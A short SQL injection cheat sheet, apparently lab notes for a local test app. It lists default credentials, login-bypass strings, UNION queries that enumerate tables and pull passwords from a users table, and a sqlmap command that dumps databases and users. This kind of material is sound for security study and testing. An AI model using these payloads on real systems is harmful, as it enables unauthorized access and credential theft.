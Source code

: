 # SQL Injection

## Login
[Reference][1]

  * admin:password
  * user:123

```
anything' OR 'x'='x'
anything' OR 1='1
```

## Read

Test for injection
```
read.php?id=1 OR 1=1
```

Find the correct number of columns
```
read.php?id=1 ORDER BY 1....
```

Find table names
```
read.php?id=1 UNION SELECT TABLE_NAME,2 FROM information_schema.tables
```

Query the data
```
read.php?id=1 UNION SELECT id,password from users
```

### SqlMap
[Reference][2]
```
python sqlmap.py -u http://localhost:5100/sqli/read.php?id=1 -f --banner --dbs --users --dump
```

[1]: http://www.unixwiz.net/techtips/sql-injection.html
[2]: https://github.com/sqlmapproject/sqlmap/wiki/Usage
